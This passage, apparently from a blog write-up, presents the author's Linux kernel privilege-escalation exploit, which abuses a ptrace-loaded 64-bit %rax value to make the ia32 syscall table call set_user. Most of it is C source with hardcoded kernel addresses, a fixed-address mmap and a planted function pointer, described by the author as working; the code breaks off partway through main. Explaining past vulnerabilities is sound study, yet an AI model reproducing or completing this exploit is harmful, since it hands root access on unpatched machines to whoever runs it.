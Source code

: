 My entire exploit code follows.  This is not fully weaponized at all
-- it depends on tweaking for the specific target kernel, for one, but
it works. (Well, if you can find an unpatched kernel anywhere any more
these days, it works). Nowadays, if I were writing an exploit like
this, I'd plug it into something like Brad Spengler's
[Enlightenment](http:&#47;&#47;www.milw0rm.com&#47;exploits&#47;9627), which takes
care of most of the annoying bits of executing shell-code in-kernel to
change the current user, disable any security modules that might be
problematic, and work across kernel versions, as necessary.


    #include <sys&#47;ptrace.h>
    #include <sys&#47;user.h>
    #include <sys&#47;types.h>
    #include <sys&#47;wait.h>
    #include <unistd.h>
    #include <stdio.h>
    #include <sys&#47;mman.h>
    #include <string.h>
    #include <stdlib.h>
    #include <stddef.h>

    &#47;**
     * Replace these with the values of `ia32_sys_call_table' and
     * `set_user' from &#47;proc&#47;kallsyms or &#47;boot&#47;System.map-$(uname -r)
     *&#47;
    #define syscall_table 0xffffffff8044b8a0
    #define set_user      0xffffffff8028d785

    &#47;*
     We don't _need_ these -- with only a little bit of cleverness, we can
     get around not knowing them, but having them will make the code
     simpler.

     set_user is defined in kernel&#47;sys.c, and can be used to change the
     UID of the current process. We'll trick the kernel into call it on
     our behalf, and thus avoid having to write any code to run in
     kernel-mode ourselves.
    *&#47;

    #define offset        (1L << 32)
    #define landing       (syscall_table + 8*offset)
    &#47;*
      'offset' is the 64-bit value we will load into %rax using ptrace().

      This will cause the "call" instruction we saw above to look up the
      value stored at that index off the syscall table, which is the
      address we compute in "landing".
     *&#47;


    int main() {
            if((signed long)mmap((void*)(landing&~0xFFF), 4096,
                                  PROT_READ|PROT_EXEC|PROT_WRITE,
                                  MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS,
                                    0, 0) < 0) {
                    perror("mmap");
                    exit(-1);
            }
            *(long*)landing = set_user;
            &#47;*
              We use mmap(2) to map a page at "landing", and write a
              pointer to the set_user function there.
             *&#47;
